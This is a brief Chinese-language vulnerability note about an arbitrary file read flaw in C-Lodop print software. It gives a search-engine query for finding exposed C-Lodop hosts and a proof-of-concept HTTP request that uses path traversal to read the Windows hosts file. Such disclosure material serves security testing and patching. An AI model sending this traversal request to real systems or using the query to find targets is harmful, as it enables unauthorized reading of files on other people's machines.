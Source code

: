 # C-Lodop打印机任意文件读取漏洞

# C-Lodop打印机任意文件读取漏洞

## 漏洞描述

C-Lodop打印机存在任意文件读取漏洞，通过构造特殊URL，可实现读取系统任意文件。

## 网络测绘

```
title="C-Lodop"
```

## 漏洞复现

poc：

```
GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
Host: 127.0.0.1
....
```


